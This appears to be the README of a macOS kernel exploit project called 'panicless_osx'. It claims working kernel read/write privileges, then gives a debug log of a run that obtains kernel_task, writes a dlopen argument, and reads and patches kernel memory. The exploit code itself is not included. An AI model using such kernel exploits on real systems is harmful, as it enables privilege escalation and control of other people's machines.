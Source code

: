 # panicless_osx
This exploit is working with r/w privilige exc. but needs fix on reading mem/leak side due its abit buggy.

## debug
`[panicless_osx] lets move in the dangly sketchy exploit
<br />
[panicless_osx] getting kernel task.
<br />
[panicless_osx] writing argument to dlopen.
<br />
[+] done!
<br />
[panicless_osx] exploring fake kernel_task abilities
<br />
[exploit] kernel_task (os/kern) successful
<br />
[+] kernel_task -> 0x1048835
<br />
[+] (read/kern) orig where:0x1056768 -> val 16
<br />
[+] (read/kern) patched where:0x1056768 -> val -272633096
<br />
[+] (read/kern) orig where:0x8192 -> val -272633088
<br />
[+] (read/kern) patched where:0x8192 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x4919 ->
<br />
info: nil
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x9015 ->
<br />
info: nil
<br />
[panicless_osx] fun part here (lets have some fun?)
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 8
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16778272 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777504 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) orig where:0x13443 -> val 16
<br />
[+] (read/kern) patched where:0x13443 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
info -> 16
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x13443 ->
<br />
info: nil
<br />
[*] wefun -> 0x16
<br />
[*] wefun_pac -> 0x16777215
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_orig -> 16
<br />
[+] (read/kern) orig where:0x16777231 -> val 16
<br />
[+] (read/kern) patched where:0x16777231 -> val -272633096
<br />
[+] (read/kern) READ/MEMORY LEAK 
<br />
where 0x16777231 ->
<br />
info: nil
<br />
wefun_pac_patched -> 16
<br />
[panicless_osx] ADD YOUR STUFF HERE
<br />
Program ended with exit code: 0
`
